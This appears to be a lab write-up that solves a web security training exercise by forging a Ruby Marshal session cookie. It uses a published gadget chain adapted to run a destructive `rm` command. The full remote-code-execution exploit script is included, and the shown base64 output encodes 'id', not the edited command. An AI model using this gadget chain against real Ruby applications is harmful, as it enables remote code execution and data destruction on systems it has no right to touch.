 # Lab: Exploiting Ruby deserialization using a documented gadget chain

 This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

**Hint**

Try searching for "ruby deserialization gadget chain" online. 

**References**

From the hint, I found the following blogpost to help me with the lab:

Blog by vakzz: [devcraft.io](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

# Step 1 inspect session cookie

In the target tab, I see that burp has identified a Serialized object within an HTTP message:

![image](https://user-images.githubusercontent.com/83407557/213926870-156f57ff-ade9-4b1b-b353-abcfb50ac87e.png)

Sending the cookie to decoder I can see that this is a ruby serialized object:

![image](https://user-images.githubusercontent.com/83407557/213926929-b2cbf729-73b8-4aad-95f5-e6342c967ee1.png)

If I modify the cookie, I can get an error that confirms ruby:

![image](https://user-images.githubusercontent.com/83407557/213928104-dbb4edb6-a3c5-4a40-adc9-c6187b6884b5.png)

![image](https://user-images.githubusercontent.com/83407557/213928117-d7f25bbe-7ce0-46ad-92bb-e3ab0f01a0b7.png)

![image](https://user-images.githubusercontent.com/83407557/213928148-9cd9b149-1bd9-402e-9016-8c1b1c1d2866.png)



# Step 2 Find a malicous serialized object gadget chain

I take the following code that I found from the [blog](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html):
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

This code is running the id command, it also isn't base64 encoding the payload. I change the script to run the `rm /home/carlos/morale.txt` and make it output a base64 encoded payload with the following changes:

```ruby
require "base64"
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
#puts payload.inspect
#puts Marshal.load(payload)
```

# Step 3 Run ruby script, and inject session cookie

I run the ruby script that I just edited to create the payload:

```bash
└─$ ruby ruby_gadget_chain.rb
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIgdpZAY7DFQ7EjoMcmVzb2x2ZQ==
```

And then inject it via the session cookie:

![image](https://user-images.githubusercontent.com/83407557/213927918-bdf9b1ce-8553-4f1c-82e7-ee740d293f94.png)

While this causes an error in the webapp, it also deletes the target file, and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/213927954-11cd3e79-86e5-4f95-8705-8f554816011c.png)





